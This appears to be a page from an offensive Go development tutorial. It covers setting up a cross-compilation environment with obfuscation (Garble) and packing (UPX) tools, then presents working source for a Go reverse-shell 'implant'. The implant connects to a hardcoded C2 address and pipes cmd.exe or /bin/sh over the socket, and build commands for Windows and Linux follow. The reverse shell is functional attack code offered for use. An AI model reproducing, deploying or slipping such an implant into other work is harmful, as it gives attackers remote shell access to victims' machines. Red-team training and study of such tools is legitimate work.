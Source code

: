 ```yaml
---
showTableOfContents: true
title: "Part 5 - Practical: Setting Up Your Offensive Go Environment"
type: "page"
---
```


## **PART 5: PRACTICAL - SETTING UP YOUR OFFENSIVE GO ENVIRONMENT**

### **Development Environment Setup**

Let's build a professional cross-compilation environment for offensive Go development.

**Step 1: Install Go**

```bash
# Linux/macOS
wget https://go.dev/dl/go1.21.5.linux-amd64.tar.gz
sudo tar -C /usr/local -xzf go1.21.5.linux-amd64.tar.gz

# Add to PATH (~/.bashrc or ~/.zshrc)
export PATH=$PATH:/usr/local/go/bin
export GOPATH=$HOME/go
export PATH=$PATH:$GOPATH/bin

# Verify
go version
# Should output: go version go1.21.5 linux/amd64
```

```powershell
# Windows (PowerShell as Admin)
# Download installer from https://go.dev/dl/
# Or use chocolatey:
choco install golang

# Verify
go version
```

**Step 2: Configure for Cross-Compilation**

```bash
# Go supports cross-compilation out of the box!
# No additional setup needed for basic targets

# Verify available targets
go tool dist list

# Output includes:
# windows/amd64
# windows/386
# linux/amd64
# darwin/amd64
# ... many more
```


**Step 3: Install Offensive Development Tools**

```bash
# 1. Garble (Obfuscation)
go install mvdan.cc/garble@latest

# 2. UPX (Compression) - optional, use cautiously
# Linux
sudo apt-get install upx-ucl

# macOS
brew install upx

# 3. PE Analysis Tools
# Windows: PE-bear, CFF Explorer, Detect It Easy
# Linux: Install via wine or use alternatives

# 4. MinGW for CGO (if you need C integration)
# Linux
sudo apt-get install mingw-w64

# Verify CGO cross-compilation
CGO_ENABLED=1 GOOS=windows GOARCH=amd64 CC=x86_64-w64-mingw32-gcc \
  go build -o test.exe test.go
```

**Step 4: IDE Setup (GoLand Recommended)**

```
GOLAND (JetBrains):
• Best Go IDE
• Excellent debugging
• Refactoring tools
• ~$90/year (free for students)

Configuration:
1. Install Go plugin
2. Set GOROOT: /usr/local/go
3. Set GOPATH: ~/go
4. Enable Go modules
5. Configure build tags for Windows target
```

**Alternative: VS Code**

```bash
# Install VS Code Go extension
code --install-extension golang.go

# Configuration (settings.json)
{
    "go.toolsManagement.autoUpdate": true,
    "go.useLanguageServer": true,
    "go.buildFlags": ["-ldflags=-s -w"],
    "go.buildTags": "windows"
}
```


### **Your First Offensive Go Binary**

Let's build a simple but functional reverse shell, then analyze it.

**implant.go:**

```go
package main

import (
	"net"
	"os"
	"os/exec"
	"runtime"
)

func main() {
	// C2 server address
	c2 := "192.168.1.100:4444"

	// Connect to C2
	conn, err := net.Dial("tcp", c2)
	if err != nil {
		os.Exit(0)
	}
	defer conn.Close()

	// Determine shell based on OS
	var cmd *exec.Cmd
	if runtime.GOOS == "windows" {
		cmd = exec.Command("cmd.exe")
	} else {
		cmd = exec.Command("/bin/sh")
	}

	// Pipe I/O through connection
	cmd.Stdin = conn
	cmd.Stdout = conn
	cmd.Stderr = conn

	// Execute
	cmd.Run()
}
```

**Building for Different Targets:**

```bash
# Windows 64-bit (from Linux/Mac)
GOOS=windows GOARCH=amd64 go build -o implant_win64.exe implant.go

# Windows 32-bit
GOOS=windows GOARCH=386 go build -o implant_win32.exe implant.go

# Linux 64-bit
GOOS=linux GOARCH=amd64 go build -o implant_linux64 implant.go

# Check sizes
ls -lh implant_*
```

![different os sizes](../img/os_sizes.png)



---
[|TOC|]({{< ref "../../moc.md" >}})
[|PREV|]({{< ref "./runtime.md" >}})
[|NEXT|]({{< ref "../../moc.md" >}})